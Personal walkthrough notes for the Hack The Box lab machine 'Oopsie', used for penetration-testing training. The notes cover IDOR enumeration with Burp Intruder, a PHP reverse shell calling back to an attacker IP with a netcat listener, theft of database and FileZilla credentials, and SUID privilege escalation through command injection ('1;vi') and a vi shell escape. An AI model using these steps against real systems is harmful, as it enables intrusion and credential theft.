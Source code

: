 Starting Point Tutorial Name: Oopsie
	Target IP: 10.10.10.28
	Attacker IP: 10.10.14.189
	Initial nmap scan discovered ports 22/80 open
	Browse to 80 reveals plain page
	dirb scan revealed nothing interesting
	Burpsuite intercept showed url http://10.10.10.28/cdn-cgi/login/
	Used creds from previous machine
		admin / MEGACORP_4dm1n!!
	Website Data
		Repair Mgmt System
			Access ID	Name	Email
			34322		admin	admin@megacorp.com
			Client ID	Name	Email
			1			Tafcz	john@tafcz.co.uk
	Used Burpsuite to examine code of Accounts page, noticed id=1 in GET request
	Bruteforced user ID from 1 to 100 with these settings
		Under Intruder Options, set these options:
			'follow redirections' to 'always'
			'process cookies in redirections' is checked
		Started attack, then sorted results by length to see any variances
		Inserted ID's, the first in the list by modifying the id in Proxy->Intercept to 30 and forwarding
			ID's with variances:  4,13,23,30
			ID	Access ID	Name		Email
			4	8832		john	john@tafcz.co.uk
			13	57633		Peter	peter@qpic.co.uk
			23	28832		Rafol	tom@rafol.co.uk
			30	86575		super admin	superadmin@megacorp.com
	Downloaded php-reverse-shell script
	Modified IP/port
		10.10.14.189:777
	Started NetCat
		nc -l -p 777
	Accessed Uploads page by modifying user ID with super admin id (86575) & uploaded reverse shell script as test.php
	Downloaded dirsearch (git clone https://github.com/maurosoria/dirsearch.git)
	Search dir's with python3 dirsearch.py -u http://10.10.10.28 -e php
	Found:
		http://10.10.10.28/css/                    
		http://10.10.10.28/fonts/                                       
		http://10.10.10.28/images/      
		/index.php/login/
		http://10.10.10.28/js/                                               
		http://10.10.10.28/themes/                          
		http://10.10.10.28/uploads/    
	Browsed to http://10.10.10.28/uploads/test.php
	Reverse shell connection achieved
	Upgraded shell (this gives you a true bash shell with tabbing and autocomplete)
		SHELL=/bin/bash script -q /dev/null
		Ctrl-Z
		stty raw -echo
		fg
		reset
		xterm
	Checked out /var/www/html/cdn-cgi/login directory & found creds in db.php
		$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
	Checked out robert's account
		id robert
		uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
	Enumerated files for robert's group
		find / -type f -group bugtracker 2>/dev/null
	Checked out the one results
		-rwsr-xr-- 1 root bugtracker 8792 Jan 25 10:14 /usr/bin/bugtracker
		Noticed SUID bit is set on this file and the owner is root.
		Great for shell escape
	Ran bugtracker, provided input 1;vi
	From vi, did a shell escape to get a root shell
	Examined contents of /root/root.txt
	Also checked .config folder, found filezilla creds
		<FileZilla3>
			<RecentServers>
				<Server>
					<Host>10.10.10.44</Host>
					<Port>21</Port>
					<Protocol>0</Protocol>
					<Type>0</Type>
					<User>ftpuser</User>
					<Pass>mc@F1l3ZilL4</Pass>
					<Logontype>1</Logontype>
					<TimezoneOffset>0</TimezoneOffset>
					<PasvMode>MODE_DEFAULT</PasvMode>
					<MaximumMultipleConnections>0</MaximumMultipleConnections>
					<EncodingType>Auto</EncodingType>
					<BypassProxy>0</BypassProxy>
				</Server>
			</RecentServers>
		</FileZilla3>